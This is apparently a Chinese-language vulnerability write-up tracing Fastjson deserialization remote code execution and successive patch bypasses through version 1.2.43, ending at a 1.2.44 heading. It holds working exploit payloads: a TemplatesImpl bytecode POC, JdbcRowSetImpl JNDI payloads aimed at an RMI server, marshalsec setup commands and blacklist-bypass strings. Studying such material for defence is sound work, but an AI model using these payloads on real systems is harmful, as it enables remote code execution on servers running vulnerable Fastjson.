



## Fastjson远程代码执行

---

**author：Cinderella**

### 前言

Fastjson在1.2.22-1.2.24版本中存在反序列化漏洞，主要原因是Fastjson支持两个特性：

- Fastjson反序列化时，JSON字符串中的`@type`字段，用来表明指定反序列化的目标恶意对象类。
- Fastjson反序列化时，字符串会自动调用恶意对象的构造方法，`setter`方法，`getter`方法，若这类方法中存在利用点，即可完成漏洞利用

主要存在两种利用方式：

- JdbcRowSetImpl(JNDI)
- TemplatesImpl(Feature.SupportNonPublicField)

---

### TemplatesImpl利用链

#### POC构建

恶意对象类如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class poc1 extends AbstractTranslet {
    public poc1() throws IOException{
        Runtime.getRuntime().exec("open /System/Applications/Calculator.app");
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException{

    }

    public void transform(DOM document, DTMAxisIterator iterator,SerializationHandler handler) throws TransletException{

    }

    public static void main(String[] args) throws Exception{
        poc1 t = new poc1();
    }
}
```

`javac`编译称为字节码，然后字节码继续`base64`编码填充POC的`_bytecodes`字段

字节码读取代码

```java
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;

public class ReadClass {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try{
            IOUtils.copy(new FileInputStream(new File(cls)),bos);
        }catch (IOException e){
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }

    public static void main(String args[]){
        String evilpath = System.getProperty("user.dir")+"/src/main/java/payload1_2_24/poc1.class";
      	//class文件绝对路径
        //System.out.println(evilpath);
        String base64 = readClass(evilpath);
        System.out.println(base64);
    }
}
```

构建测试代码如下

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class fastjson1_2_24 {
    public static void main(String[] args){
        String payload = "{\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\"yv66vgAAADQAJgoABwAXCgAYABkIABoKABgAGwcAHAoABQAXBwAdAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHAB4BAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYHAB8BAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAEbWFpbgEAFihbTGphdmEvbGFuZy9TdHJpbmc7KVYHACABAApTb3VyY2VGaWxlAQAJcG9jMS5qYXZhDAAIAAkHACEMACIAIwEAKG9wZW4gL1N5c3RlbS9BcHBsaWNhdGlvbnMvQ2FsY3VsYXRvci5hcHAMACQAJQEAEnBheWxvYWQxXzJfMjQvcG9jMQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lPRXhjZXB0aW9uAQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAFAAcAAAAAAAQAAQAIAAkAAgAKAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAsAAAAOAAMAAAAMAAQADQANAA4ADAAAAAQAAQANAAEADgAPAAIACgAAABkAAAADAAAAAbEAAAABAAsAAAAGAAEAAAASAAwAAAAEAAEAEAABAA4AEQACAAoAAAAZAAAABAAAAAGxAAAAAQALAAAABgABAAAAFgAMAAAABAABABAACQASABMAAgAKAAAAJQACAAIAAAAJuwAFWbcABkyxAAAAAQALAAAACgACAAAAGQAIABoADAAAAAQAAQAUAAEAFQAAAAIAFg==\"]," +
                "'_name':'c.c','_tfactory':{ },\"_outputProperties\":{},\"_name\":\"a\",\"_version\":\"1.0\",\"allowedProtocols\":\"all\"}";
        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

#### POC浅析

POC中的利用链`TemplatesImpl`类的中的绝大多数成员变量是被`private`修饰，影响漏洞的主要是`_bytecodes` 和 `_outputProperties` 两个成员变量。因此在使用`JSON.parseObject`时需要传入`Feature.SupportNonPublicField`。

- `@type` ：反序列化的恶意目标类型`TemplatesImpl`，FastJson最终会按照这个类反序列化得到实例
- `_bytecodes`：继承`AbstractTranslet` 类的恶意类字节码，使用`Base64`编码。
- `_outputProperties`：`TemplatesImpl`反序列化过程中会调用`getOutputProperties` 方法，导致`bytecodes`字节码成功实例化，造成命令执行。
- `_name`：调用`getTransletInstance` 时会判断其是否为`null`，为`null`直接`return`，不会进入到恶意类的实例化过程；
- `_tfactory`：`defineTransletClasses` 中会调用其`getExternalExtensionsMap` 方法，为`null`会出现异常；

#### 利用链流程分析

流程图

**廖师傅，yyds！**


##### @type字段

**首先在parseObject处下断点**

com/alibaba/fastjson/JSON.java#parseObject


**`parseObject`会调用parse，一路跟进还是`parse`**

com/alibaba/fastjson/JSON.java#parse


**在这里创建了`parser`变量，跟进该类创建**

com/alibaba/fastjson/parser/DefaultJSONParser.java#DefaultJSONParser


调用了另一个构造函数，并传入了`JSONScanner`类的实例用于词法解析。

com/alibaba/fastjson/parser/DefaultJSONParser.java#DefaultJSONParser


对JSON字符串的开头进行解析，发现是`{`开头，设置对应的`token`。


此时变量内容如下，继续跟进`parser.parse()`到关键点

com/alibaba/fastjson/parser/DefaultJSONParser.java#DefaultJSONParser


这里会根据前面的初始化`lexer.token()`为`12`，进入了对应的`case`分支，调用`parseObject`

com/alibaba/fastjson/parser/DefaultJSONParser.java#parseObject


`scanSymbol`函数从`JSON`文本中解析出`@type`键名


根据`@type`进入相对的分支，并使用`scanSymbol`函数解析出`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`键值

com/alibaba/fastjson/util/TypeUtils.java#loadClass


调用`TypeUtils.loadClass`加载恶意利用类并存入`clazz`。


将`clazz`传入`config.getDeserializer`并继续跟进到关键位置。

com.alibaba.fastjson.util.JavaBeanInfo#build


通过反射获取类中的全部方法，此时的调用栈为：

```
build:538, JavaBeanInfo (com.alibaba.fastjson.util)
createJavaBeanDeserializer:526, ParserConfig (com.alibaba.fastjson.parser)
getDeserializer:461, ParserConfig (com.alibaba.fastjson.parser)
getDeserializer:312, ParserConfig (com.alibaba.fastjson.parser)
parseObject:367, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:11, fastjson1_2_24 (payload1_2_24)
```

然后通过三个`for`循环筛选出符合条件的方法存入`fieldList`


分析得出，需要满足要求如下：

`setter`

- 函数名长度大于`4`且以`set`开头
- 非静态函数
- 返回类型为`void`或`当前类`
- 参数个数为`1`

`getter`

- 函数名长度大于等于`4`
- 非静态方法
- 以`get`开头并且第`4`个字母为大写
- 无参数
- 返回值类型继承自`Collection`或`Map`或`AtomicBoolean`或`AtomicInteger`或`AtomicInteger`

分析筛选代码，得出3个满足条件最后传入`JavaBeanInfo`类的实例

执行并返回到上层，并进入关键的函数`deserializer.deserialze`


##### _bytecodes字段

在解析处理`@type`字段的目标类后，通过`for`循环处理JSON文本中剩下的键值对，通过`scanSymbol`函数获取下个键名

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#deserialze


转入`parseField`


com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#parseField


这里调用函数`smartMatch`处理键名，跟踪该函数

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#smartMatch


这里将键值传入`getFieldDeserializer`，继续跟踪

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#getFieldDeserializer


这里`_bytecodes`不满足条件因此会返回`null`，并返回到`smartMatch`函数中

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#smartMatch


因为`fieldDeserializer`结果为`null`，会进入分支并去掉原键名中的`-`、删除开头的下划线等。

这里键名变为`bytecodes`，再次调用`getFieldDeserializer`，但是`bytecodes`仍然返回null

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#getFieldDeserializer


再此分支创建对`DefaultFieldDeserializer`类型的`fieldDeserializer`进行赋值

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#fieldDeserializer


并且调用`fieldDeserializer.parseField`函数，然后调用`fieldValueDeserilizer.deserialze`函数对`_bytecodes`进行`base64`解码并赋值给`value`，这就是为什么POC中的`_bytecodes`包含的字节码需要`base64`编码。


com/alibaba/fastjson/parser/JSONScanner.java#bytesValue


com/alibaba/fastjson/util/IOUtils.java#decodeBase64


Base64解码调用栈如下

```
decodeBase64:478, IOUtils (com.alibaba.fastjson.util)
bytesValue:112, JSONScanner (com.alibaba.fastjson.parser)
deserialze:136, ObjectArrayCodec (com.alibaba.fastjson.serializer)
parseArray:723, DefaultJSONParser (com.alibaba.fastjson.parser)
deserialze:177, ObjectArrayCodec (com.alibaba.fastjson.serializer)
parseField:71, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:11, fastjson1_2_24 (payload1_2_24)
```

继续调用`setValue`

com/alibaba/fastjson/parser/deserializer/DefaultFieldDeserializer.java#parseField


com/alibaba/fastjson/parser/deserializer/FieldDeserializer.java#setValue


可以看到，这里把解码后的内容存放到了对象中。

调用栈如下：

```
setValue:137, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:83, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:11, fastjson1_2_24 (payload1_2_24)
```

层层返回如下

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#deserialze


执行到`deserialze:614, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)`跳出当前循环，进入外部的下一次的`for`循环`deserialze:349, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)`

##### _outputProperties字段

大循环对每个键值进行分析处理，继续对`outputProperties`进行分析

com/alibaba/fastjson/parser/deserializer/JavaBeanDeserializer.java#deserialze


继续循环，将键值`_outputProperties`传入`smartMatch`，下划线去掉后变为key2，符合`sortedFieldDeserializers`中的三个元素，返回`fieldDeserializer`。

POC中键名为`outputProperties`也是可以的，`smartMatch(key)`就能返回`fieldDeserializer`，一路步进至`setValue`处。


这里会利用反射调用`outputProperties`的`get`方法`public synchronized java.util.Properties com/sun/org/apache/xalan/internal/xsltc/trax/TemplatesImpl.java#getOutputProperties


com/sun/org/apache/xalan/internal/xsltc/trax/TemplatesImpl.java#getTransletInstance


这里先判断`_name`不为空，然后调用`defineTransletClasses`函数

com/sun/org/apache/xalan/internal/xsltc/trax/TemplatesImpl.java#defineTransletClasses


可以看到这里通过`loader.defineClass`加载了恶意对象字节码，然后获取父类赋值到`superClass`，之后会`superClass.getName().equals(ABSTRACT_TRANSLET)`匹配父类是否是`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`

返回到上层函数，这里`_class[_transletIndex].newInstance()`创建恶意对象实例


这里直接无参数实例化了恶意类，完成代码执行

java/lang/Class.java#newInstance


调用栈如下

```
newInstance:424, Constructor (java.lang.reflect)
newInstance:442, Class (java.lang)
getTransletInstance:455, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
newTransformer:486, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
setValue:85, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:83, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:193, JSON (com.alibaba.fastjson)
parseObject:197, JSON (com.alibaba.fastjson)
main:11, fastjson1_2_24 (payload1_2_24)
```

### JNDI && JdbcRowSetImpl利用链

#### POC构建

恶意对象类如下：

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.io.Serializable;
import java.util.Hashtable;

public class Exploit implements ObjectFactory, Serializable {

    public Exploit() {
        try {
            Runtime.getRuntime().exec("open -a Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        Exploit exploit = new Exploit();
    }

    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

通过javac编译得到Exploit.class文件，将字节码文件放入web目录下，如下：

```
$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

开启RMI服务器，默认运行在1099端口，并设置返回对象为远程恶意类的引用

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8000/#Exploit
```

#### **注意：**

针对Fastjson的攻击，目前主要是使用JNDI的利用链，但是JDK对于JNDI注入漏洞，在不同版本有着不同的防御措施。

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。


如果JDK版本在6u211、7u201、8u191之后，会导致复现和利用失败。

针对这种情况，如果是高版本的JDK，复现的时候，可以将以下参数设置为true

```java
com.sun.jndi.rmi.object.trustURLCodebase
com.sun.jndi.cosnaming.object.trustURLCodebase
com.sun.jndi.ldap.object.trustURLCodebase
```

这样本地复现是没有问题的，针对实战中高版本JDK的绕过，建议参考[KINGX师傅](https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html)的文章，这里面很全

#### JDK8u144限制

因为本人用的是这个版本，所以简单分析一下，首先是在comsun.jndi.rmi.registry.RegistryContext#static，可以看到这里默认将`com.sun.jndi.rmi.object.trustURLCodebase`置为`false`


然后在走到lookup的时候

com.sun.rowset.JdbcRowSetImpl#connect


com.sun.jndi.rmi.registry.RegistryContext#lookup


跟进lookup，这里会走到decodeObject

com.sun.jndi.rmi.registry.RegistryContext#decodeObject


这里可以看到，在执行`NamingManager.getObjectInstance`之前，会进行判断`com.sun.jndi.rmi.object.trustURLCodebase`的值，由于该值为false所以就会抛出异常

构建测试代码

```java
import com.alibaba.fastjson.JSON;

public class JNDI {
    public static void main(String[] args){
      	System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");//我测试时使用的jdk版本是8u144
        String Poc = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\", \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\", \"autoCommit\":true}";
        JSON.parse(Poc);
    }
}
```

#### POC浅析

- `@type`:指定恶意利用类为com.sun.rowset.JdbcRowSetImpl
- `dataSourceName`：指定`RMI`/`LDAP`恶意服务器，并且调用setDataSourceName函数
- `autoCommit`：调用`setAutoCommit`函数

#### 利用链分析

根据@type传入指定类，自动调用满足条件的`setter`和`getter`函数，首先会调用`JdbcRowSetImpl`的`setDataSourceName`函数。

com.sun.rowset.JdbcRowSetImpl#setDataSourceName


接下来会调用父类`super.setDataSourceName`，并传入RMI/LDAP恶意服务器地址

这里对`dataSource`进行赋值


之后进行一系列反序列化操作，走到`setAutoCommit`函数

com.sun.rowset.JdbcRowSetImpl#setAutoCommit

这里调用`connect`函数


这里有一处明显的JNDI注入，调用`lookup`函数，并且参数可控为`this.getDataSourceName()`，之后就是加载远程恶意类，完成命令执行

com.sun.rowset.JdbcRowSetImpl#connect


整个调用栈如下，重点关注最后两步

```java
connect:627, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
setValue:96, FieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:83, DefaultFieldDeserializer (com.alibaba.fastjson.parser.deserializer)
parseField:773, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseRest:922, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:-1, FastjsonASMDeserializer_1_JdbcRowSetImpl (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:368, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:137, JSON (com.alibaba.fastjson)
parse:128, JSON (com.alibaba.fastjson)
main:8, JNDI (payload1_2_24)
```

### Fastjson1.2.25-1.2.41绕过

1.2.25版本更新修复了1.2.24的两种利用方式。主要是增加了`autoTypeSupport`反序列化选项，以及增加了`checkAutoType`函数对加载类进行黑白名单过滤和判断。

#### autoTypeSupport选项

在1.2.25版本默认情况下，autoTypeSupport为false，不支持指定类的反序列化，默认使用黑名单+白名单验证。

如果不设置autoTypeSupport或者设置为false，会直接报错不支持指定类的反序列化


主要原因在于com/alibaba/fastjson/parser/ParserConfig.java#checkAutoType


#### 补丁分析

这里使用1.2.24的payload进行分析

com/alibaba/fastjson/parser/DefaultJSONParser.java#parseObject


这里会有黑白名单进行判断，其中白名单需要自定义，默认为空

com/alibaba/fastjson/parser/ParserConfig.java#checkAutoType


黑名单denyList如下：

```
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

1.2.24payload中执行类直接匹配到黑名单，报错


#### 补丁绕过

本地构建测试代码如下：

```java
public class fastjson1_2_25 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String Poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\", \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\", \"autoCommit\":true}";
        JSON.parse(Poc);
    }
}
```

与1.2.24payload不同处为在执行类前增加`L`,结尾增加`;`根据之前分析，1.2.25版本采用黑白名单以及`startWith`进行匹配，这样就可以直接绕过黑白名单匹配的过程，同时后续应该有代码对这两个字符进行处理，这里进行分析

com/alibaba/fastjson/parser/DefaultJSONParser.java#parseObject


进入黑名单匹配，因为黑名单匹配使用`startWith`，直接通过黑名单，继续往下

com/alibaba/fastjson/parser/ParserConfig.java#checkAutoType


这里对loadClass前会将首尾的特殊字符`L`和`;`去掉

com/alibaba/fastjson/util/TypeUtils.java#loadClass


之后就和之前1.2.24分析一样


### Fastjson1.2.42绕过

Fastjson1.2.42版本修复了1.2.41的绕过，但是修复存在逻辑问题，仍然会产生绕过。

#### 补丁分析

`fastjson` 在1.2.42开始，把原本明文的黑名单改成了哈希过的黑名单，防止安全研究者对其进行研究。

黑名单如下：

```
-8720046426850100497
 -8109300701639721088
 -7966123100503199569
 -7766605818834748097
 -6835437086156813536
 -4837536971810737970
 -4082057040235125754
 -2364987994247679115
 -1872417015366588117
 -254670111376247151
 -190281065685395680
 33238344207745342
 313864100207897507
 1203232727967308606
 1502845958873959152
 3547627781654598988
 3730752432285826863
 3794316665763266033
 4147696707147271408
 5347909877633654828
 5450448828334921485
 5751393439502795295
 5944107969236155580
 6742705432718011780
 7179336928365889465
 7442624256860549330
 8838294710098435315
```

具体项目[GitHub - LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)已经有大佬分析好了，可以在分析的时候直接参考。

这次补丁针对之前的绕过，在进入黑名单进行过滤的前，进行了一次去掉了首位字符的操作

com/alibaba/fastjson/parser/ParserConfig.java#checkAutoType


去掉了首尾之后，黑名单hash`4147696707147271408`直接匹配到我们要利用的类

com/alibaba/fastjson/parser/ParserConfig.java#checkAutoType



这里查看对应表，正好是`com.sun`，之后直接抛出异常，中止序列化


#### 补丁绕过

这次补丁主要是针对`1.2.25-1.2.41`的绕过，但是修复的方式还是比较简单，对于漏洞并没有很好地修复，并且将黑名单变为hash，增加安全分析的难度。

针对思路，可以双写`LL`以及`;;`，就可以绕过修复，这样在分析中删掉开头结尾类名为`Lcom.sun.rowset.JdbcRowSetImpl`，然后就是针对`1.2.24-1.2.41`的绕过，到关键的`TypeUtils.loadClass`，删除首尾就是我们要加载的类

本地构建测试代码:

```java
public class fastjson1_2_42 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String Poc = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\", \"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\", \"autoCommit\":true}";
        JSON.parse(Poc);
    }
}
```

代码执行成功


### Fastjson1.2.43绕过

针对1.2.42的绕过，继续采用封堵的方式，使用hash值匹配，主要针对双写进行绕过

#### 补丁分析

com/alibaba/fastjson/parser/ParserConfig.java#checkAutoType


新增代码部分对我们的双写`LL`进行了判断，匹配后直接报错

这里就完成了对`L------;`以及`LL--------;;`的匹配处理，多个重复也无法再进行绕过，就需要找新的利用方式

#### 补丁绕过

针对1.2.43版本的POC如下

```java
public class fastjson1_2_43 {
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String Poc = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{,\"dataSourceName\":\"rmi://127.0.0.1:1099/Exploit\", \"autoCommit\":true}";
        JSON.parse(Poc);
    }
}
```

可以看到针对官方限制` L`以及`LL`的绕过，采用的新的绕过方式，主要是`[`以及后面的`[{`，这里是利用了`TypeUtils`对`[`的处理

com/alibaba/fastjson/util/TypeUtils.java#loadClass


可以看到，这里删除了`[`，并且引入了我们想要执行的类，但是返回的是一个数组

然后走到反序列化中，这里使用`ObjectArrayCodec`进行反序列化处理

com/alibaba/fastjson/parser/DefaultJSONParser.java#parseObject


向后追踪，发现如果token！= JSONToken.LBRACKET，就会报错，追踪到对应文件

**这里其实是很重要的点**，我们其实分析的时候就知道，parseArray的作用，进行词法分析，如果遇到第一个分隔符，即我们payload的常规`,`而不是这里的`[`,就会报错，这就是我们payload中，类尾要加`[`的原因

com.alibaba.fastjson.parser.DefaultJSONParser#parseArray(java.lang.reflect.Type, java.util.Collection, java.lang.Object)


可以看到，

com.alibaba.fastjson.parser.JSONToken


其实这里进行一个报错分析更容易理解，我们增加`[`后，可以发现执行仍然报错


看到这个报错，其实猜都可以猜继续加`{`，这也是我们payload那么写的原因，从分析来看呢?

删掉payload中的`{`，追踪分析到

com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer#deserialze(com.alibaba.fastjson.parser.DefaultJSONParser, java.lang.reflect.Type, java.lang.Object, java.lang.Object, int, int[])


这里很明显看到，我们运行到这里token=4，没有满足条件，如果要正常执行，就要满足条件，不要进入到这个`if`中

查看对应的JSONToken表


发现如果不满足token=12且token=16就会进入该if循环，直接报错，那么增加对应的符号即可,再加上`{`,变成`[{`就能顺利执行

这里满足条件，直接判断false，跳过这次报错


### Fastjson1.2.44-1.2.45绕过

补丁修复了在1.2.43版本中`autotype`为`true`的情况下，添加`[`绕过的情况

#### 补丁分析

